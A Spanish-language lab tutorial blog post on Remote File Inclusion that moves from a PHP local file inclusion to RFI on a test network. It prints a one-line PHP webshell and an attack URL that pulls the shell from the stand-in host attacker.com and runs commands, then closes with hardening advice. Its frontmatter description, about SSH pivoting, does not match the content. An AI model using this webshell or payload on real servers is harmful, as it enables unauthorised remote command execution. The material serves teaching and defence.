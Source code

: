 ```yaml
---
title: Remote File Inclusion (RFI)
published: 2025-02-24
description: "Uso de ssh para pivotar en la red."
image: "./portada.png"
tags: ["RFI", "Web", "Pentesting"]
category: Web
draft: false
---
```



## Índice
- [Introducción](#Introducción)
- [Entorno de pruebas](#Entorno-de-pruebas)
- [Conclusión](#Conclusión)

## Introducción
El **Remote File Inclusion (RFI)** es una vulnerabilidad que permite a un atacante incluir archivos remotos en un servidor vulnerable. A diferencia del Local File Inclusion (LFI), que solo carga archivos locales, el RFI permite ejecutar código alojado en otra web.

Esto es peligroso porque un atacante puede alojar un archivo malicioso en su propio servidor y usar la vulnerabilidad para ejecutarlo en la máquina víctima. Esto puede llevar a la toma de control del sistema, robo de datos o la instalación de malware.

En este caso alojaremos una WebShell como POC.

## Entorno de pruebas
- 2 Equipos:
    - **Máquina atacante**: Kali Linux => 192.168.1.20
    - **Máquina servidor WEB**: Ubuntu  => 192.168.1.30

![img0](../../../assets/images/remote-file-inclusion-rfi-web/entorno.png)

Para poder lograr explotar esta vulnerabilidad, deberemos crear un archivo PHP que permita la inclusión de archivos:

![img1](../../../assets/images/remote-file-inclusion-rfi-web/portada.png)

Este código básico permite que el servidor reciba un valor mediante una solicitud GET a través del parámetro file e incluya el archivo correspondiente en la página.

Con esta sencilla configuración, ya tenemos un **Local File Inclusion (LFI)** funcional.
Servidor WEB
```
php -S 192.168.1.30:80
```
![img1](../../../assets/images/remote-file-inclusion-rfi-web/phpserv1.png)

Kali Linux
```
http://192.168.1.30/?file=flag.txt
```
![img2](../../../assets/images/remote-file-inclusion-rfi-web/lfi.png)

Para lograr un **Remote File Inclusion (RFI)** y poder subir un archivo al servidor de forma remota, es necesario modificar la configuración de PHP en el archivo ``php.ini``. En particular, hay que habilitar la opción que permite la inclusión de archivos desde URLs remotas.

Dentro de este archivo, tenemos que buscar la variable allow_url_include:

![img3](../../../assets/images/remote-file-inclusion-rfi-web/include.png)

Una vez que se ha habilitado la **inclusión remota de archivos (RFI)** y se ha configurado adecuadamente el archivo ``php.ini``, el siguiente paso es intentar llamar nuestra webshell para poder lanzar comandos remotamente.

1. Crear un servidor HTTP en la máquina atacante para alojar la Webshell.
```php
<?php system($_GET['cmd']); ?>
```
![img4](../../../assets/images/remote-file-inclusion-rfi-web/python3.png)

Este código PHP permite ejecutar comandos del sistema que se pasan como parámetros en la URL. Por ejemplo, si visitamos ``http://attacker.com/shell.php?cmd=ls``, el servidor devolverá el resultado del comando ls ejecutado en la máquina atacante.

2. Llamar a la Webshell alojada en nuestra máquina atacante.
   
Una vez que la webshell está cargada en el servidor atacante, el siguiente paso es aprovechar la vulnerabilidad Remote File Inclusion (RFI) en el servidor víctima. Si el servidor víctima permite incluir archivos desde URLs remotas, podemos incluir la webshell alojada en nuestra máquina atacante.

La URL para incluir la webshell en el servidor víctima podría verse algo así:
``
http://victimsite.com/index.php?file=http://attacker.com/shell.php&cmd=id
``
![img5](../../../assets/images/remote-file-inclusion-rfi-web/rcc.png)
   
Estamos ejecutando comandos localmente usando un archivo remoto. Esto es básicamente un Remote File Inclusion.

## Conclusión


El **Remote File Inclusion (RFI)** es una vulnerabilidad crítica que permite a los atacantes ejecutar código remoto en un servidor vulnerable, comprometiendo gravemente la seguridad del sistema. A través de la inclusión de archivos externos, un atacante puede ejecutar comandos arbitrarios, acceder a información sensible o incluso tomar control completo del servidor afectado.

En este post, hemos demostrado cómo un atacante puede aprovechar esta vulnerabilidad para cargar y ejecutar una **webshell** remotamente, utilizando una configuración incorrecta de PHP. Al habilitar opciones como `allow_url_include` y manipular el parámetro `file`, el atacante puede hacer que el servidor incluya un archivo desde un servidor controlado por él y ejecutar comandos del sistema.

Es fundamental que los administradores de sistemas mantengan configuraciones seguras, validen entradas de usuario adecuadamente y desactiven opciones inseguras como la inclusión remota de archivos. La prevención de ataques RFI es crucial para proteger los servidores de ataques externos que pueden tener consecuencias devastadoras.

![img6](../../../assets/images/remote-file-inclusion-rfi-web/rig.png)
